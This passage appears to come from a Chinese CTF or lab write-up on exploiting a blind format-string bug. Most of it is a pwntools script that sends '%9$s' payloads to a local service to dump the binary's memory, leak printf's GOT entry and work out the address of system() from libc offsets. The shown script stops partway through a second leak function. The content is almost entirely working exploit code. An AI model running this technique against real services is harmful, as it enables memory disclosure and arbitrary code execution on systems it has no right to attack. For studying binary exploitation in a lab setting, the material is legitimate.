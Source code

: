 ### exploit

完整的 exp 如下：

```python
from pwn import *

# context.log_level = 'debug'

def exec_fmt(payload):
    p.sendline(payload)
    info = p.recv()
    return info
# p = remote('127.0.0.1', '10001')
# p.recvline()
# auto = FmtStr(exec_fmt)
# offset = auto.offset
# p.close()

def dump_memory(start_addr, end_addr):
    result = ""
    while start_addr < end_addr:
        p = remote('127.0.0.1', '10001')
        p.recvline()
        # print result.encode('hex')
        payload = "%9$s.AAA" + p32(start_addr)
        p.sendline(payload)
        data = p.recvuntil(".AAA")[:-4]
        if data == "":
            data = "\x00"
        log.info("leaking: 0x%x --> %s" % (start_addr, data.encode('hex')))
        result += data
        start_addr += len(data)
        p.close()
    return result
# start_addr = 0x8048000
# end_addr   = 0x8049000
# code_bin = dump_memory(start_addr, end_addr)
# with open("code.bin", "wb") as f:
#     f.write(code_bin)
#     f.close()
printf_got = 0x8049974

## method 1
def get_printf_addr():
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(printf_got)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:4]
    log.info("printf address: %s" % data.encode('hex'))
    return data
# printf_addr = get_printf_addr()
printf_addr = 0xf7e0e670
offset_printf = 0x00051670
offset_system = 0x0003cc50
system_addr = printf_addr - (offset_printf - offset_system)

## method 2
def leak(addr):
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(addr)
    p.sendline(payload)
```